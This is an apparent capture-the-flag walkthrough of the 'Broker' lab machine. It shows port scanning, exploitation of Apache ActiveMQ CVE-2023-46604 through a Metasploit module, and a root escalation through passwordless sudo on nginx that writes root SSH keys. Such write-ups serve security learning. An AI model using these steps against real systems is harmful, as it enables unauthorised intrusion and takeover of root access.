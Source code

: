 ```yaml
---
title: Broker
published: true
layout: post
---
```

	
<br />

---------------
Broker is an easy difficulty Linux machine hosting a version of Apache ActiveMQ. Enumerating the version of Apache ActiveMQ shows that it is vulnerable to Unauthenticated Remote Code Execution, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a sudo misconfiguration allowing the activemq user to execute sudo /usr/sbin/nginx, which is similar to the recent Zimbra disclosure and is leveraged to gain root access.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/RToOy6WLHn8?si=idmyl06xxS5kgs3H" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.243 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Broker/1.png)
<br />
<br />
<br />

There are **9 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **1883/tcp**
+ **5672/tcp**
+ **8161/tcp**
+ **43791/tcp**
+ **61613/tcp**
+ **61614/tcp**
+ **61616/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.243 -p 22,80,1883,5672,8161,43791,61613,61614,61616 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Broker/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx 1.18.0**
+ **1883/tcp mqtt**
+ **5672/tcp amqp**
+ **8161/tcp Jetty 9.4.39.v20210325**
+ **43791/tcp tcpwrapped**
+ **61613/tcp Apache ActiveMQ**
+ **61614/tcp Jetty 9.4.39.v20210325**
+ **61616/tcp ActiveMQ OpenWire transport**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.243 -p 22,80,1883,5672,8161,43791,61613,61614,61616 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Broker/3.png)
<br />
<br />
<br />

Which didn't return anything.

<br />

------

<br />
### Foothold

This machine drove me crazy at the beginning as I started performing a bad enumeration, then the exploits I tried didn't work, until I found out that I had to use a **metasploit module** for it to work.

<br />

Digging a little bit further into each service I discovered a **version for the ActiveMQ software** running on **port 61616/tcp**, 5.15.15:

```bash
nc 10.10.11.243 61616
```

![](/assets/Broker/4.png)
<br />
<br />
<br />

Searching for this on Google led me to **CVE-2023-46604**:
![](/assets/Broker/5.png)
<br />
<br />
<br />

After trying a few exploits unsuccessfully, I discovered this Metasploit exploit:

```bash
sudo msfdb run
msf6 > search CVE-2023-46604
msf6 > use 2
```

![](/assets/Broker/6.png)
<br />
<br />
<br />

Let's set the **required parameters** and **run the exploit**:

```bash
set RHOSTS 10.10.11.243
set LHOST tun0
set SRVHOST tun0
run
```

![](/assets/Broker/7.png)
<br />
<br />
<br />

This exploit worked! Let's get a shell and get the **user flag**.

![](/assets/Broker/8.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation in this machine is easy, however we have not seen it yet, so I'm going to elaborate it.

<br />

Enumerating the system, I discovered that we can **run nginx as sudo without password**:

```bash
sudo -l
```

![](/assets/Broker/9.png)
<br />
<br />
<br />

Although GTFOBins doesn't contain any privilege escalation method for this privilege, Google does, specifically [**DylarGrl**](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406):

![](/assets/Broker/10.png)
<br />
<br />
<br />

This exploit creates an **nginx configuration file**, which launches an **nginx instance that runs as root** and allows us to **run commands**, in this case it **creates SSH keys for the root user**, which we can then use to log in as root. Let's run it:

![](/assets/Broker/11.png)
<br />
<br />
<br />

We can copy this key, login with it and grab the **root flag**:

![](/assets/Broker/12.png)
<br />
<br />
<br />
